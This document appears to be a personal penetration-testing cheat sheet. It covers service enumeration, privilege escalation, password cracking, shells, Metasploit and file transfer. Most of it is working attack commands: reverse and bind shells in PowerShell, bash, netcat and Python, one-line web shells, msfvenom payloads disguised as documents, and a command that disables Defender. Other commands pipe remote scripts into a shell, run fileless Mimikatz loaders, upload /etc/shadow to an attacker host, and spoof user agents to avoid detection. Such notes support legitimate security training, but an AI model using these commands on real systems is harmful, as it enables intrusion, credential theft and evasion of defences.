    - Supermicro IPMI	  `ADMIN:ADMIN`
  - http://fish2.com/ipmi/remote-pw-cracking.html
  - metasploit
    - get IPMI hashes
      - [IPMI 2.0 RAKP Remote SHA1 Password Hash Retrieval](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)


- #### 837 rsync
  - [hacktricks 837 pentesting rsync](https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync)
  - nmap
    - `sudo nmap -sV -p 873 $TARGET`
  - looking for shares
    - `nc -nv $TARGET 873`
  - list
    - `rsync -av --list-only rsync://$TARGET/<dir>`
  - pilage
    - `rsync -av rsync://$TARGET/<dir>`
    - via ssh
      - `rsync -av -e ssh rsync://$TARGET/<dir>`
      - non standard port
        - `rsync -av -e "ssh -p2222" rsync://$TARGET/<dir>`


- #### 1433/tcp mssql
  - system dbs
    - `master`  Tracks all system information for an SQL server instance
    - `model` Template database that acts as a structure for every new database created. Any setting changed in the model database will be reflected in any new database created after changes to the model database
    - `msdb` The SQL Server Agent uses this database to schedule jobs & alerts
    - `tempdb` Stores temporary objects
    - `resource` Read-only database containing system objects included with SQL server
  - default install runs as `NT SERVICE\MSSQLSERVER`
  - `locate mssqlclient`
  - nmap
    - `sudo nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 10.129.201.248`
  - metasploit
    - `scanner/mssql/mssql_ping`
  - mssqlclient.py
    - `python3 mssqlclient.py Administrator@$TARGET -windows-auth`
  - commands
    - `SELECT name, database_id, create_date FROM sys.databases;`
  - misconfigurations
    - not using encryption to connect 
    - use of self signed certificates when using encryption, its possible to spoof
    - use of named pipes
    - weak and default sa credentials


- #### 1521/tcp Oracle Transparent Network Substrate (TNS)
  - can be run from any port
  - can handle TCP/IP, UDP, IPX/SPX, and AppleTalk
  - configuration
    - `tsnames.ora` which defines the connection properties
    - `listener.ora` defines what is responsible for incoming client requests and redirecting to the appropriate db
  - sql exclusion list is a user created text file which contains the packages or types that cannot be executed
    - `$ORACLE_HOME\sqldeveloper` possibly called `PlsqlExclusionList`
  - SID (system identifier) identifies a db instance
  - nmap
    - `sudo nmap -p1521 -sV $TARGET --open`
    - oracle-sid-brute
      - `sudo nmap -p1521 -sV 10.129.205.19 --open --script oracle-sid-brute`
  - odat
    - needs to be run from /usr/share/odata
    - install
      - `git clone https://github.com/quentinhardy/odat.git`
    - all option
      - `/usr/share/odat/odat.py all -s $TARGET`
    - upload file - potential web shell
      - `echo "Oracle File Upload Test" > testing.txt`
      - linux
        - `/usr/share/odat/odat.py utlfile -s $TARGET -d XE -U scott -P tiger --sysdba --putFile //var//www//html testing.txt ./testing.txt`
      - windows
        - `/usr/share/odat/odat.py  utlfile -s $TARGET -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt`
      - test
        - `curl -X GET http://$TARGET/testing.txt`
  - sqlplus
    - get error `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`
      - `sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig`
    - `sqlplus user/pass@$TARGET/XE`
    - if user has admin privs, log in as sysdba
      - `sqlplus user/pass@$TARGET/XE as sysdba`
    - commands
      - https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985
      - `select table_name from all_tables;`
      - `select * from user_role_privs;`
      - extract password hashes
        - `select name, password from sys.user$;`
      - 


- #### 1723/tcp pptp

- #### 2049/tcp,udp nfs network file system server
  - 111/tcp,udp nfs


- #### 3306/tcp  mysql
  - default configuration
    - `cat /etc/mysql/mysql.conf.d/mysqld.cnf | grep -v "#" | sed -r '/^\s*$/d'`
  - login
    - ` mysql -u root -pP4SSw0rd -h 10.129.14.128`
  - commands
    - `use sys;`
    - `show tables;`
    - `select host, unique_users from host_summary;`
    - `show columns from <table>;`
    - `select * from <table>;`
    - `select * from <table> where <column> = "<string>";`
    - `select * from myTable where name like '%otto%';`
  - nmap
    - `sudo nmap $TARGET -sV -sC -p3306 --script mysql*`


- #### 3389/tcp,udp  remote desktop protocol (RDP)
  - prior to vista, no encryption on any process including login
  - nmap
    - `nmap -sV -sC $TARGET -p3389 --script rdp*`
    - `RDP cookies (mstshash=nmap)` is sent with the request which can trigger EDR
  -  rdp-sec-check.pl
     - install
       - `git clone https://github.com/CiscoCXSecurity/rdp-sec-check && cd rdp-sec-check`
     - scan
       - `./rdp-sec-check.pl $TARGET`
  - brute force
    - `hydra -L user.list -P password.list rdp://10.129.42.197`
  - remote desktop connection
    - xfreerdp
      - `xfreerdp /u:<username> /p:"<password>" /v:$TARGET`
      - `xfreerdp /u:alex /p:'lol123!mD' /v:10.129.63.43`
    - rdesktop
      - only works with the older XP/2003 login process, use xfreerdp instead
      - `rdesktop -u <username> $TARGET`
    - Remmina 


- #### 5985/5986 winrm
  - Windows Remote Management (WinRM) is the Microsoft implementation of the network protocol Web Services Management Protocol (WS-Management). It is a network protocol based on XML web services using the Simple Object Access Protocol (SOAP) used for remote management of Windows systems. It takes care of the communication between Web-Based Enterprise Management (WBEM) and the Windows Management Instrumentation (WMI), which can call the Distributed Component Object Model (DCOM).
  - 5985 http
  - 5986 https
    - not often enabled
  - nmap
    - `nmap -sV -sC $TARGET -p5985,5986 --disable-arp-ping -n`
  - evilwinrm
    - `evil-winrm -i $TARGET -u <username> -p <password>`
  - powershell
    - check if winrm is running on local or remote host
      - local `test-wsman`
  - crackmapexec
    - `crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>`
    - `crackmapexec winrm $ip -u user.list -p password.list`


- #### 8080/tcp  http proxy
  


# Vulnerabilty assessment
- [exploit-db](https://www.exploit-db.com/)
  - searchsploit
    - `searchsploit openvpn 7.2` 
    - `searchsploit -t linux kernel 3.9.0-74`
    - using nmap results
      - `searchsploit --nmap /nmap/nmap.xml`
- [cvedetails](https://www.cvedetails.com/)
- [vulners](https://vulners.com/)


# Exploitation
- Compare exploits for risk
  - Probablity of Success (n/10) + Complexity (5=easy,3=medium,1=hard) + Probablity of Damage (0=none, -5=critical)

# Post exploitation

## Persistence
- ensure you have a way back in


## Evasion
- bypass av/idr


## Pilaging
- what is this hosts role in the network?
- hunt for sensitive data

## Privilege escalation
- root on linux, domain admin, local admin or system (windows)
- PrivEsc Checklists
  - linux
    - [hacktricks.xyz](https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist)
    - [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
  - windows
    - [hacktricks.xyz](https://book.hacktricks.xyz/windows-hardening/checklist-windows-privilege-escalation)
    - [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)
- enumeration scripts (often very noisy)
  - Privilege Escalation Awesome Scripts (PEASS-ng)
    - [LinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
      - `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh`
      - `sudo python3 -m http.server 80`
        - `curl 10.10.10.10/linpeas.sh | sh `
    - [WinPeas](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
      - `powershell "IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/carlospolop/PEASS-ng/master/winPEAS/winPEASps1/winPEAS.ps1')"`
  - linux
    - [LinEnum](https://github.com/rebootuser/LinEnum)
      - `./LinEnum.sh -s -k keyword -r report -e /tmp/ -t`
    - [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker)
      - `wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py`
      - `python linuxprivchecker.py -w -o linuxprivchecker.log`
  - windows
    - [seatbelt](https://github.com/GhostPack/Seatbelt)
      - `Seatbelt.exe -group=all`
    - [JAWS](https://github.com/411Hall/JAWS)
      - `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename JAWS-Enum.txt`
  - look for
    - kernal exploits
    - vulnerable software
    - user privileges
      - linux
        - list the privileges for the invoking user
          - `sudo -l`
          - `(ALL : ALL) ALL` means we have sudo rights
          - `NOPASSWD: /bin/echo` means we can run the /bin/echo command without a password
            - `sudo -u <username> /bin/echo Hello World!`
        - switch to root 
          - `sudo su -`
        - [gtfobins](https://gtfobins.github.io/) for binaries that can be used to bypass local security
      - windows
        - [lolbas](https://lolbas-project.github.io/#) living off the land binaries
        - [loldrivers](https://www.loldrivers.io/) for living off the land drivers
    - scheduled tasks
      - linux (cron jobs)
        - common locations
        - `/etc/crontab`
        - `/etc/cron.d`
        - `/var/spool/cron/crontabs/root`
    - exposed credentials
      - password reuse - check everything using exposed password
      - user history
        - sh `history`
        - ps 
          - `get-history`
          - `get-content (Get-PSReadlineOption).HistorySavePath`
    - ssh keys
      - got read access
        - `/home/user/.ssh/id_rsa`
        - `/root/.ssh/id_rsa`
        - if found, copy to local, change permissions and attempt ssh
          - `echo "" > id_rsa`
          - `chmod 600 id_rsa`
          - `ssh user@$TARGET -i id_rsa`
      - got write access
        - create key
          - `ssh-keygen -f key`
        - copy key.pub to target dir
          - `/root/.ssh/authorized_keys`
        - `ssh root@$TARGET -i key`


## Data exfiltration
- bypass 


## You are in a new environment, start information gathering again


# Lateral movement

## Pivoting / tunneling

## Evasive testing

# Cleanup
- always document where you leave files


# Password decrypting and cracking
- Group Policy Preferences password stored in Groups.xml (contained in cpassword)
  - [gpp-decypt](https://github.com/t0thkr1s/gpp-decrypt)
    - `gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ --> GPPstillStandingStrong2k18`
- hashcat
  - ipmi hash from metasploit (remove ip and username if there)
    - `hashcat -m 7300 ipmi.hashcat -a 0 /usr/share/wordlists/rockyou.txt`

# Active directory
- [impacket](../tools/impacket.md) Get AD users from linux with Impacket Get-ADUsers
  - `GetADUsers.py -all domain\username -dc-ip $TARGET`
- [BloodHound](../tools/bloodhound.md)


# shells
- [payloadsallthethings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- listen
  - netcat
    - `nc -lvnp 1234`
- reverse shell
  - attacker sets up a listener and waits for victim to connect
  - attacker listens
    - `sudo nc -lvnp 443`
  - victim connects
    - powershell
      - [nishang shells](https://github.com/samratashok/nishang/tree/master/Shells)
      - `$client = New-Object System.Net.Sockets.TCPClient('10.10.14.129',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()`
        - explaination 
        - `powershell -nop -c ` from cmd, executes powershell.exe with no profile (nop) and executes the command/script block (-c) contained in the quotes
        - `"$client = New-Object System.Net.Sockets.TCPClient(10.10.14.158,443);` binds a socket
        - `$stream = $client.GetStream();` creates a command stream
        - `[byte[]]$bytes = 0..65535|%{0}; ` Creates a byte type array ([]) called $bytes that returns 65,535 zeros as the values in the array. This is essentially an empty byte stream that will be directed to the TCP listener on an attack box awaiting a connection.
        - `while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)` Starts a while loop containing the $i variable set equal to (=) the .NET framework Stream.Read ($stream.Read) method. 
        - `{;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);` Sets/evaluates the variable $data equal to (=) an ASCII encoding .NET framework class that will be used in conjunction with the GetString method to encode the byte stream ($bytes) into ASCII.
        - `$sendback = (iex $data 2>&1 | Out-String ); ` Sets/evaluates the variable $sendback equal to (=) the Invoke-Expression (iex) cmdlet against the $data variable, then redirects the standard error (2>) & standard output (1) through a pipe (|) to the Out-String cmdlet which converts input objects into strings. Because Invoke-Expression is used, everything stored in $data will be run on the local computer. 
        - `$sendback2 = $sendback + 'PS ' + (pwd).path + '> ';` shows the current working directory
        - `$sendbyte=  ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()}` Sets/evaluates the variable $sendbyte equal to (=) the ASCII encoded byte stream that will use a TCP client to initiate a PowerShell session with a Netcat listener running on the attack box.
        - `$client.Close()"` terminates the tcp connection
        - 
      - bypass defender
        - `Set-MpPreference -DisableRealtimeMonitoring $true`
  - netcat
    - `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $TARGET 1234 >/tmp/f`
  - bash
    - `bash -c 'bash -i >& /dev/tcp/$TARGET/1234 0>&1'`
- bind shell
  - attacker connects to victim who has setup a listener
  - victim sets up listener
    - netcat - bind bash shell to the tcp session
      - `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l $VICTIM 7777 > /tmp/f`
      - explaination
        - `rm -f /tmp/f;` removes the /tmp/f file if it exists
        - `mkfifo /tmp/f;` make a named pipe 
        - `cat /tmp/f | ` connects the standard output of cat /tmp/f to the standard input of pipe 
        - `/bin/bash -i 2>&1 | ` Specifies the command language interpreter using the -i option to ensure the shell is interactive. 2>&1 ensures the standard error data stream (2) & standard output data stream (1) are redirected to the command following the pipe (|).
        - `nc 10.10.14.12 7777 > /tmp/f  ` open a connection with netcat
        - 
  - attacker connects
    - netcat
      - `nc -nv $VICTIM 7777`


  - powershell
    -  `powershell -NoP -NonI -W Hidden -Exec Bypass -Command $listener = [System.Net.Sockets.TcpListener]1234; $listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + " ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();`
  - python
    - `python -c 'exec("""import socket as s,subprocess as sp;s1=s.socket(s.AF_INET,s.SOCK_STREAM);s1.setsockopt(s.SOL_SOCKET,s.SO_REUSEADDR, 1);s1.bind(("0.0.0.0",1234));s1.listen(1);c,a=s1.accept();\nwhile True: d=c.recv(1024).decode();p=sp.Popen(d,shell=True,stdout=sp.PIPE,stderr=sp.PIPE,stdin=sp.PIPE);c.sendall(p.stdout.read()+p.stderr.read())""")'`
  - netcat
    - `nc `
- web shell
  - if upload is blocked, try pushing through burp and changing the content-type to image/gif
  - webserver default root locations
    - Apache	/var/www/html/
    - Nginx	  /usr/local/nginx/html/
    - IIS	    c:\inetpub\wwwroot\
    - XAMPP	  C:\xampp\htdocs\
    - `echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php`
  - curl
    - `curl http://SERVER_IP:PORT/shell.php?cmd=id`
    - post
      - `curl -F 'id=73' http://admin.academy.htb:55655/admin/admin.php`
  - lang
    - php
      - `<?php system($_REQUEST["cmd"]); ?>`
      - [whitewinterwolf](https://github.com/WhiteWinterWolf/wwwolf-php-webshell)
    - jsp
      - `<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>`
    - asp/x
      - `<% eval request("cmd") %>`
      - [nishang](https://github.com/samratashok/nishang.git)
  - [laudanum](https://github.com/jbarcia/Web-Shells/tree/master/laudanum)
    - `/usr/share/webshells/laudanum/`
- interactive shells
  - python
    - upgrading tty
      - `python -c 'import pty; pty.spawn("/bin/bash")'`
      - `python3 -c 'import pty; pty.spawn("/bin/bash")'`
      - background shell `[ctrl+z]`
      - `stty raw -echo; fg`
      - `[enter][enter]`
  - /bin/sh -i
    - `/bin/sh -i`
  - perl
    - `perl —e 'exec "/bin/sh";'`
    - from a script
      - `exec "/bin/sh";`
  - ruby
    - from a script
    - `exec "/bin/sh"`
  - lua
    - from a script
    - `os.execute('/bin/sh')`
  - awk
    - `awk 'BEGIN {system("/bin/sh")}'`
  - find
    - common in unix/linux
    - `find / -name nameoffile -exec /bin/awk 'BEGIN {system("/bin/sh")}' \;`
    - `find . -exec /bin/sh \; -quit`
  - vim
    - `vim -c ':!/bin/sh'`
    - escape vim
      - `vim`
      - `:set shell=/bin/sh`
      - `:shell`


# metasploit
- [metasploit](../tools/metasploit.md)
  - structure
    - modules - are prepared scripts with a specific purpose and corresponding functions that have already been developed and tested in the wild `/usr/share/metasploit-framework/modules`
      - types
        - Auxiliary 	Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.
        - Encoders 	  Ensure that payloads are intact to their destination.
        - Exploits 	  Defined as modules that exploit a vulnerability that will allow for the payload delivery.
        - NOPs 	      (No Operation code) Keep the payload sizes consistent across exploit attempts.
        - Payloads 	  Code runs remotely and calls back to the attacker machine to establish a connection (or shell).
        - Plugins 	  Additional scripts can be integrated within an assessment with msfconsole and coexist.
        - Post 	      Wide array of modules to gather information, pivot deeper, etc.
    - plugins `/usr/share/metasploit-framework/plugins/`
    - scripts `/usr/share/metasploit-framework/scripts/`
    - tools `/usr/share/metasploit-framework/tools/`
  - ALWAYS CHECK LHOST IS SET IF THE EXPLOIT COMPLETED BUT NO SESSION WAS CREATED
  - keep it updated
    - `apt update; apt install metasploit-framework`
  - `reload_all` to reload all exploits
  - `sudo msfconsole`
  - search inside msfconsole
    - `help search`
    - `search smb`
    - `search exploit eternalblue`
    - specific search `search type:exploit platform:windows cve:2021 rank:excellent microsoft`
    - reading results
      - `56 exploit/windows/smb/psexec`
        - `56` the id of the module
        - `exploit` the type of module
        - `windows` the platform
        - `smb` the service the module targets
        - `psexec` the tool that will get uploaded to target system if vulnerable
  - choose the exploit 
    - `use exploit/windows/smb/ms17_010_psexec` via name
    - `use 56` via id
  - get information about the exploit `info`
  - show the options we need to set
    - `show options`
    - set options
      - `set LHOST tun0`
      - `set RHOSTS $TARGET`
      - you can also set global options
        - `setg RHOSTS 10.10.10.40`
    - specify the target (the default value is 0 meaning msp decide)
      - `show targets`
  - check to ensure target is vulnerable
    - `check`
  - pwn it
    - `exploit`
  - open a shell in metasploit 
    - `shell`
  - send requests through burp
    - `set PROXIES HTTP:127.0.0.1:8080`
  - background a session `bg`
  - look for priv escalation `search local_exploit_suggester`
  - dump hashes `hashdump`
  - lsa dump `lsa_dump_sam`
  - lsa dump secrets `lsa_dump_secrets`
  - critical files stored 
    - `/usr/share/metasploit-framework`
    - or ` ~/.msf4/`
  - 

# msfvenom
- each / is a stage
- staged payloads are a stub that calls back to download the rest       `windows/meterpreter/reverse_tcp`
  - common
    - `windows/shell/reverse_tcp`
    - `windows/x64/shell/reverse_tcp`
    - `windows/meterpreter/reverse_tcp`
    - `windows/x64/meterpreter/reverse_tcp`
- stageless payloads are sent in their entirety and contain underscores `windows/meterpreter_reverse_tcp`
    - `windows/shell_reverse_tcp`
    - `windows/x64/shell_reverse_tcp`
    - `windows/meterpreter_reverse_tcp` 
    - `windows/x64/meterpreter_reverse_tcp`
    - `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf`
    - `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe`

- list all payloads
  - `msfvenom -l payloads`

- `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=1337 -f aspx > reverse_shell.aspx`


# File Transfers
- protocol
  - ssh
    - attacker
      - enable ssh
        - `sudo systemctl enable ssh`
      - start ssh service
        - `sudo systemctl start ssh`
      - check for listening port
        - `netstat -lnpt`
    - victim
      - scp
        - push
          - `scp linenum.sh user@remotehost:/tmp/linenum.sh`
        - pull
          - `scp plaintext@192.168.49.128:/root/myroot.txt .`
  - http
    - suspicious user agents
      - list all agents on device
        - `[Microsoft.PowerShell.Commands.PSUserAgent].GetProperties() | Select-Object Name,@{label="User Agent";Expression={[Microsoft.PowerShell.Commands.PSUserAgent]::$($_.Name)}} | fl`
      - powershell
        - `User-Agent: Mozilla/5.0 (Windows NT; Windows NT 10.0; en-US) WindowsPowerShell/5.1.14393.0`
      - WinHttpRequest
        - `User-Agent: Mozilla/4.0 (compatible; Win32; WinHttp.WinHttpRequest.5)`
      - msxml
        - `User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 10.0; Win64; x64; Trident/7.0; .NET4.0C; .NET4.0E)`
      - certutil
        - `User-Agent: Microsoft-CryptoAPI/10.0`
      - bits
        - `User-Agent: Microsoft BITS/7.8`
    - attacker
      - python
        - `python3 -m http.server 8000`
        - `python -m SimpleHTTPServer 8000`
        - upload
          - install
            - `pip3 install uploadserver`
          - start
            - `python3 -m uploadserver`
          - https
            - create ssl certificate
              - `openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'`
            - make https dir
              - `mkdir https && cd https`
            - start server
              - `sudo python3 -m uploadserver 443 --server-certificate /root/server.pem`
        - php
          - `php -S 0.0.0.0:8000`
        - ruby
          - `ruby -run -ehttpd . -p8000` 
    - victim
      - specify user agent to evade detection
        - `$UserAgent = [Microsoft.PowerShell.Commands.PSUserAgent]::Chrome`
        - `Invoke-WebRequest http://10.10.10.32/nc.exe -UserAgent $UserAgent -OutFile "C:\Users\Public\nc.exe"`
      - powershell
        - `IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')`
        - `Invoke-FileUpload -Uri http://192.168.49.128:8000/upload -File C:\Windows\System32\drivers\etc\hosts`
      - powershell download cradles
        - `https://gist.github.com/HarmJ0y/bb48307ffa663256e239`
      - error "response content can not be parsed cause Internet Explorer engine is not available.
        - use `-UseBasicParsing`
      - error ""The underlying connection was closed: Could not establish trust relationship for the SSL/TLS secure channel."
        - `[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}`
        - this worked `[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12`
      - file download
        - `(New-Object Net.WebClient).DownloadFile('http://<attacker>:8000/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')`
        - `Invoke-WebRequest http://<attacker>/PowerView.ps1 -OutFile PowerView.ps1`
        - `wget http://<attacker>:8000/PowerView.ps1`
        - `curl http://<attacker>:8000/PowerView.ps1 -o PowerView.ps1`
      - windows fileless - download the payload and execute it directly
        - invoke-expression
          - `IEX (New-Object Net.WebClient).DownloadString('http://<attacker>:8000/Invoke-Mimikatz.ps1')`
          - `(New-Object Net.WebClient).DownloadString('http://<attacker>:8000/Invoke-Mimikatz.ps1') | IEX`
      - linux fileless
        - `curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash`
        - `wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3`
      - bash
        - connect
          - `exec 3<>/dev/tcp/10.10.10.32/80`
        - http GET
          - `echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3`
        - echo response
          - ` cat <&3`
        - using python3 upload server with ssl
          - We used the option --insecure because we used a self-signed certificate that we trust. 
          - `curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure`
      - curl
        - `curl http:\\<attacker>:8000/file.sh -o file.sh`
        - `curl http:\\<attacker>:8000/file.sh | sh`
      - wget
        - `wget http:\\<attacker>:8000/file.sh`
    - smb
    - attacker
      - download
        - `sudo impacket-smbserver share <sharename> <sharepath>`
        - `impacket-smbserver <sharename> <sharepath> -smb2support -user evil -password Password123`
      - upload using webdav
        - `sudo pip install wsgidav cheroot`
        - `sudo wsgidav --host=0.0.0.0 --port=80 --root=/tmp --auth=anonymous`
    - victim
      - non authenticated
        - `copy \\<attacker>\<sharename>\nc.exe`
        - or mount
          - `net use n: \\<attacker>\<sharename>`
          - `copy n:\nc.exe`
      - mount with credentials
        - `net use n: \\<attacker>\<sharename> /user:evil Password123`
        - `copy n:\nc.exe`
      - upload
        - `copy C:\Users\john\Desktop\SourceCode.zip \\192.168.49.129\sharefolder\`
  - ftp
    - attacker 
      - install the pyftpdlib library
        - `sudo pip3 install pyftpdlib`
      - `sudo python3 -m pyftpdlib --port 21`
      - allow write
        - `sudo python3 -m pyftpdlib --port 21 --write`
    - victim
      - `(New-Object Net.WebClient).DownloadFile('ftp://192.168.49.128/file.txt', 'C:\Users\Public\ftp-file.txt')`
      - use command file
        - build command file to download
          - `echo open 192.168.49.128 > ftpcommand.txt`
          - `echo USER anonymous >> ftpcommand.txt`
          - `echo USER anonymous >> ftpcommand.txt`
          - `echo GET file.txt >> ftpcommand.txt`
          - `echo bye >> ftpcommand.txt`
        - build command file to upload
          - `echo open 192.168.49.128 > ftpcommand.txt`
          - `echo USER anonymous >> ftpcommand.txt`
          - `echo binary >> ftpcommand.txt`
          - `echo PUT c:\windows\system32\drivers\etc\hosts >> ftpcommand.txt`
          - `echo bye >> ftpcommand.txt`
        - exec command file
          - `ftp -v -n -s:ftpcommand.txt`
      - upload (requires --write with pyftpdlib)
        - `(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')`
    - upload
      - convert to base64
        - `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
        - decode on attacker
          - `dbcyph0n@htb[/htb]$ echo IyB...3N0DQo= | base64 -d > hosts`
      - post to nc
        - attacker `nc -nlvp 8000`
          - after base64 gets caught
            - `echo <base64> | base64 -d -w 0 > hosts`
        - victim
          - `$b64 = [System.convert]::ToBase64String((Get-Content -Path 'C:\Windows\System32\drivers\etc\hosts' -Encoding Byte))`
          - `Invoke-WebRequest -Uri http://<target>:8000/ -Method POST -Body $b64`
  - base64
    - victim
      - encode
        - `cat id_rsa |base64 -w 0;echo`
        - or `base64 file.sh -w 0`
    - attacker
      - decode
        - `echo -n 'LS0tLS1CRUdJTiBPUEVOU1NIIFBSSVZBVEUgS0VZLS0tLS......tLQo=' | base64 -d > id_rsa`
    - verify files
      - compare original and transferred versions
        - `md5 linenum.sh`
        - `sha256sum linenum.sh`
        - `get-filehash -Algorithm SHA256 linenum.sh`
        - `file linenum.sh` 
- code
  - python2
    - `python2.7 -c 'import urllib;urllib.urlretrieve ("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`
  - python3
    - download
      - `python3 -c 'import urllib.request;urllib.request.urlretrieve("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh")'`
    - upload
      - `python3 -c 'import requests;requests.post("http://192.168.49.128:8000/upload",files={"files":open("/etc/passwd","rb")})'`
  - php
    - file_get_contents()
      - `php -r '$file = file_get_contents("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); file_put_contents("LinEnum.sh",$file);'`
    - fopen()
      - `php -r 'const BUFFER = 1024; $fremote = fopen("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "rb"); $flocal = fopen("LinEnum.sh", "wb"); while ($buffer = fread($fremote, BUFFER)) { fwrite($flocal, $buffer); } fclose($flocal); fclose($fremote);'`
    - pipe to bash
      - `php -r '$lines = @file("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh"); foreach ($lines as $line_num => $line) { echo $line; }' | bash`
  - ruby
    - download file
      - `ruby -e 'require "net/http"; File.write("LinEnum.sh", Net::HTTP.get(URI.parse("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh")))'`
  - perl
    - download file
      - `perl -e 'use LWP::Simple; getstore("https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh", "LinEnum.sh");'`
  - javascript
    - activex
      - [wget.js](attackscripts/wget.js)
    - usage
      - cscript.exe
        - `cscript.exe /nologo wget.js https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView.ps1` 
    - vbscript
      - xmlhttp
        - [wget.vbs](attackscripts/wget.vbs)
        - usage
          - cscript.exe
            - ` cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1`
- misc
  - netcat
    - attacker to victim
      - victim listens
        - `nc -l -p 8000 > SharpKatz.exe`
        - close connection immediately after recieve
          - `ncat -l -p 8000 --recv-only > SharpKatz.exe`
        - use port 443 to to bypass firewall
          - `sudo nc -l -p 443 -q 0 < SharpKatz.exe`
          - close connection immediately after receive [--recv-only means the connection is closed after the transfer]
            - `ncat 192.168.49.128 443 --recv-only > SharpKatz.exe`
        - bash
          - `cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe`
      - attacker
        - -q 0 means the connection is closed after the transfer is complete
          - `nc -q 0 192.168.49.128 8000 < SharpKatz.exe`
        - close connection immediately after send
          - `ncat --send-only 192.168.49.128 8000 < SharpKatz.exe`
        - use port 443 to bypass firewall
          - `nc 192.168.49.128 443 > SharpKatz.exe`
          - close connection immediately after send
